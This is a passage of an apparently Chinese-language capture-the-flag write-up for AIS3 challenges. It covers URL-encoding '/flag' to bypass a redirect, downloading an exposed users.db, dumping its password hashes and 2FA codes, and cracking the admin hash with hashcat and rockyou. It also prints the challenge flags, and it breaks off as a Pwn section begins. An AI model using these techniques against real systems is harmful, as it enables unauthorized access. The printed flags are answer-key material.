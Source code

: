 發現只要到 `/flag` 就會被跳轉到 youtube 畫面。

![image](https://hackmd.io/_uploads/rJcGXEpMlx.png)

可是很明顯 flag 檔案就被放在 `/flag`，所以要找到方法可以不跳轉但是讀到 flag 檔案。
這邊一樣嘗試使用 `url encode` 就成功了。

```shell
http://chals1.ais3.org:30000/%2Fflag
```

:::flag
AIS3{G01ang_H2v3_a_c0O1_way!!!_Us3ing_C0NN3ct_M3Th07_L0l@T0m0r1n_1s_
cute_D0_yo7_L0ve_t0MoRIN?}
:::

### Login Screen 1

![image](https://hackmd.io/_uploads/S19z4Nafle.png)

檔案下載下來後發現 `init.php` 裡面有 new 一個 **users.db** 所以嘗試存取。

```shell
http://login-screen.ctftime.uk:36368/users.db
```

結果還真的被下載下來，使用 `sqlite3` 去看裡面有甚麼資料。

```sql title="user.db"
sqlite> Select * from users;
1|admin|$2y$10$Hf11AOUj8lw13DogTnS3aOvjD1hPnfsOx8qMKZzG8dGCWujtTRvBC|51756447753485459839
2|guest|$2y$10$/th4ch2sGdetYaEoNrkC7O5m2cvvKo.21EBLOweMlaqXuec6k8E1y|000000
```

根據前面登入進去 guest 的提示 2FA 是 `000000`，所以可以推斷 admin 的 2FA 就是 **51756447753485459839**。

接下來使用 `hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt` 去爆破密碼得到密碼居然也是 **admin**。

![image](https://hackmd.io/_uploads/SJBBvNazel.png)

:::flag
AIS3{1.Es55y_SQL_1nJ3ct10n_w1th_2fa_IuABDADGeP0}
:::

## Pwn

### Welcome to the World of Ave Mujica🌙

![image](https://hackmd.io/_uploads/SJ1ow46Gll.png)

執行:

![image](https://hackmd.io/_uploads/S1VSuN6Gll.png)

接下來丟到 IDA 裡面:
